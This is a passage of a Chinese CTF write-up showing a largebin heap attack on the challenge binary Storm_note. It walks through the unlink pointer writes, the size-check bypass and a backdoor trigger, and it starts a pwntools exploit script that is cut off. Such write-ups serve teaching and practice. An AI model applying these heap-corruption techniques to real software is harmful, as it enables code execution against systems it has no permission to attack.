   通过解链操作2，我们能得到：

 ```c
 victim->bk = bck = fwd->bk = fake_chunk+ 8
 victim->fd = largbin_entry
 fwd->bk = victim
 bck->fd = (fake_chunk +8)->fd = victim
 ```

  接下来我们可以观察一下调试的结果是否与我们分析的一致。

 ![image-20211226162922399](/assets/wgpsec/images/heap/image-20211226162922399.png)

 ![image-20211226162928596](/assets/wgpsec/images/heap/image-20211226162928596.png)

  因为fake_chunk-5处会写入victim的地址，开启地址随机化的开头地址是0x55或0x56，所以fake_chunk的size位是0x55或0x56。

  当_int_malloc返回之后会进行如下检查。

 ![image-20211226162936052](/assets/wgpsec/images/heap/image-20211226162936052.png)

  其中宏定义如下。

 ![image-20211226162941269](/assets/wgpsec/images/heap/image-20211226162941269.png)

  0x55&0x2=0，绕不过检查，所以只有size为0x56时，我们才能申请到0xabcd0100-0x20处的堆块。

#### 4.后门利用

```python
add(0x48)
payload = p64(0) * 2 + p64(0) * 6
edit(2, payload)

p.sendlineafter('Choice: ','666')
p.send(p64(0)*6)
```

  申请到目标堆块后，将0Xabcd0100处的随机数改为0，触发后门。

 ![image-20211226163021383](/assets/wgpsec/images/heap/image-20211226163021383.png)

 ![image-20211226163026373](/assets/wgpsec/images/heap/image-20211226163026373.png)

### 完整exp

 ```python
 from pwn import *
 
 context.log_level = 'debug'
 binary = './Storm_note'
 elf = ELF(binary)
 libc = elf.libc
 local = 1
 if local:
  p = process(binary)
 else:
  p = remote('')
 
 def add(size):
  p.sendlineafter('Choice: ', '1')
  p.sendlineafter('?\n', str(size))
 
 def edit(index, content):
  p.sendlineafter('Choice: ', '2')
  p.sendlineafter('?\n', str(index))
  p.sendafter('\n', content)
 ```